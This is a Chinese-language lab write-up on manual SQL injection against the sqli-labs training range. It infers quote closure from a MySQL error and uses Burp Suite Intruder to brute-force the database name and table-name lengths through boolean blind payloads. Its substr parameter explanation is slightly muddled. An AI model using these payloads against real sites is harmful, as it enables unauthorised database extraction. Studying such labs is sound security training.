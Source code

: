 ```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```
分析错误片段`"1"") LIMIT 0,1`,这里需要同时使用双引号和括号闭合,推测出注入语句`id=1") --+`
输入后返回正常
判断出注入类型为双引号字符注入,同时使用括号闭合.

# 手工注入 盲注 布尔型
使用sql-labs靶场 less-8,使用burpsuit 进行爆破

## 确定注入类型
直接输入`id=1`,再输入`id=1'`页面变化,判断存在单引号sql注入.但是没有回显信息.判断盲注.
**如何判断是布尔型或时间形暂不知道**

## 爆破数据库名称
使用burpsuit抓包,发送到`intruder`选项卡.在`position`子选项卡里编辑注入的sql代码.

### 判断数据库名称长度

```
id=1' and (select length(database()))=§1§ --+
```
paylod选项卡中使用数字类型,设置1-10的字典,部长为1

点击 start attack 开始爆破,判断返回内容大小,确定数据库名称长度为6.
***注意在burpsuit的编辑页面需要编码为url***
### 爆出数据库名称
判断了数据库长度,以此一个字符一个字符爆出数据库名称

例如从第一个字符开始

```
id=1' and 1=(select ascii(substr(database(),1,1))) --+
```
这次的字典为1-255.
之后判断返回内容,查询ascii十进制表,得到对应的字符.

之后的sql语句改变`substr()`函数的第二个参数(第一个是字符串,第二个是取字符的起点,第三个字符是步长)
直到爆出第六个字符,完成爆破
## 爆破数据表
由于数据表有很多只能通过`limit`函数逐个取表判断,爆出一个表的名字的原理和爆出数据库相同这里以`limit 1,1`为例子,也就是`select *`查询出的所有的表的第一个表.

### 爆出数据表的长度

```
id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=0 --+
```
同理得出表长度
